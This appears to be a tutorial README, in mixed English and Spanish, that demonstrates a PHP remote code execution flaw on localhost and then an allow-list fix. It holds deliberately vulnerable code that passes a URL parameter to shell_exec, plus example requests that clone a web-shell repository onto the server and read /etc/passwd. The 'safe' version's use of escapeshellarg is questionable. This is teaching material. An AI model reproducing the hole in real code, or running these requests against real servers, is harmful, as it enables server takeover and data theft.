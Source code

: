 # RCE Vulnerability Example

An RCE Vulnerability allows a attacker executes code in the server command line to get information of the server or install malware

### Vulnerable Website
http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php

This website executes in the server any command that you send in the cmd param
```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/* If the parameter cmd not exists finish the execution */
if (!isset($_GET['cmd'])) {
	die("Falta el parametro cmd");
}
$output = shell_exec($_GET['cmd']);
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=ls

![alt text](./images/ls_example.png)

using this we can clone a GitHub Repository and install it on the server.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=git%20clone%20https://github.com/xl7dev/WebShell.git

Es posible que para esto sea necesario modificar los permisos de escritura de la carpeta.

O tambien podemos accedes al fichero etc/passwd del servidor.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_vulnerable.php?cmd=cat%20/etc/passwd

![alt text](./images/passwd_example.png)

### Secure Website

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php

Although the ideal is not allow the website to execute commands if we need execute certain commands we can create a list with the allowed commands in the server and verife the command before the execution.

```
<?php
ini_set('display_errors', 1);
error_reporting(E_ALL);
/*Array with the allowed commands to execute in the server */
$allowed_cmds = ["ls", "whoami", "pwd"];

/* If the parameter cmd not exists or isn't in the list finish the execution */
if (!isset($_GET['cmd']) || !in_array($_GET['cmd'], $allowed_cmds)) {
	die("Falta el parametro cmd  o ha insertado un comando no valido");
}

/* Execute the command in the cmd parameter and shows the output */
$output = shell_exec(escapeshellarg($_GET['cmd']));
echo htmlspecialchars($output, ENT_QUOTES, 'UTF-8');
?>
```
If we send an not allowed command the server finish the execution before execute them.

http://localhost/Examples-of-Web-Vulnerabilities/RCE/rce_safe.php?cmd=cat%20/etc/passwd

![alt text](./images/fail_passwd_example.png)

